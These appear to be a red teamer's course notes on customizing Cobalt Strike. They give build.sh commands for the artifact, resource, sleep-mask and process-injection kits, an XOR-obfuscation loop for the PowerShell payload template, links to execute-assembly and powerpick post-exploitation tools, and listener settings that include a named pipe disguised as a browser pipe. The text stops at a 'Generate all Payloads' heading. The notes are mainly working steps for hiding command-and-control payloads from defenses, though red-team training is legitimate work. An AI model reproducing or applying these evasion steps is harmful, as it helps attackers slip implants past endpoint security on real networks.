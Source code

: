## Change kits (Saved on Windows and ext disc)
https://github.com/RedefiningReality/Cobalt-Strike/tree/main/kits

Artifact kit
```
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37495050-artifact-kit
./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
```
Resources:
Change template.x64.ps1
Change ALL variables in the file

```
for ($zz = 0; $zz -lt $v_code.Count; $zz++) {
	$v_code[$zz] = $v_code[$zz] -bxor 35
}

for ($i = 0; $i -lt $v_service.Count; $i++) {
	$var_service[$i] = $v_service[$i] -bxor 35
}
```
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```
Sleepmask
```
./build.sh 47 WaitForSingleObject true none /mnt/c/Tools/cobaltstrike/sleep-mask
```
Process Injection
```
./build.sh /mnt/c/Tools/cobaltstrike/process_inj
```
inlineExceute-assembly
```
Download 
-> https://github.com/anthemtotheego/InlineExecute-Assembly/blob/main/inlineExecuteAssembly/inlineExecute-Assemblyx64.o
-> https://github.com/RedefiningReality/Cobalt-Strike/blob/main/post-ex/inline-x.cna

Compile
-> https://github.com/RedefiningReality/Cobalt-Strike/blob/main/post-ex/powerpick.cs

Change Route of powerpick

If powerpick doesnt work use powerpick-patched of artifact.cna
```
![[Pasted image 20240918124051.png]]
## Listeners
```
ls \\.\pipe\
mojo.5888.5048.1881222447974724358 (change last 4 chars)

http 80

tcp 4444
```
## Generate all Payloads

